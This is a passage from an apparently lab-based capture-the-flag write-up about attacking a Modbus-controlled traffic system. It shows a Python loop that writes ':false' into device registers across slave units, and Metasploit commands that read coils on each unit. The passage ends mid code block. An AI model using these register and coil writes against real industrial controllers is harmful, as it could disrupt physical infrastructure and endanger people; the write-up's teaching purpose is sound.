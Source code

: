Yea, I later figured out that python had a library to connect to modbus, but anyways it works.

```
import subprocess

for i in range(1,20):                           #  :  f   a   l   s   e
    cmd = f"modbus write -w -s {i} 10.129.96.95 10 58 102 97 108 115 101"
    subprocess.run(cmd.split(" "))
```

```modbus {command} {type} {slaveid} {target_ip} {data_address} {information_to_write}```

I set it to the first 20 to see if that would make any difference. It didn't make any visual difference. But if I look at the registers again, it changed the values.


![](/lighttheway/meta3.png)
*First one is before running the script, second one is after running the python script.*

So, if that didn't change anything, what can I do?


Coils also store values, and I can read and write it. 

## Reading Coils

```
msf6 auxiliary(scanner/scada/modbusclient)> set action READ_COILS
```

Reading the first 18 coils, it was all just bunch of 0s so I decided to read 2000 of them to see if I find anything good.

```
msf6 auxiliary(scanner/scada/modbusclient)> set NUMBER 2000
```
![](/lighttheway/meta4.png)


After trying to get 2000 coils, I can see some interesting information. There are bunch of 1 in the middle. 

Let's see what other Units have.

```
msf6 auxiliary(scanner/scada/modbusclient)> set UNIT_NUMBER 2
```

UNIT_NUMBER determines which slave node we are viewing. 

After looking through 7 to 8 of them I found out that only 6 of it hold any valuable data. So, I concluded that each unit represents one junction. 


```
from pyModbusTCP.client import ModbusClient
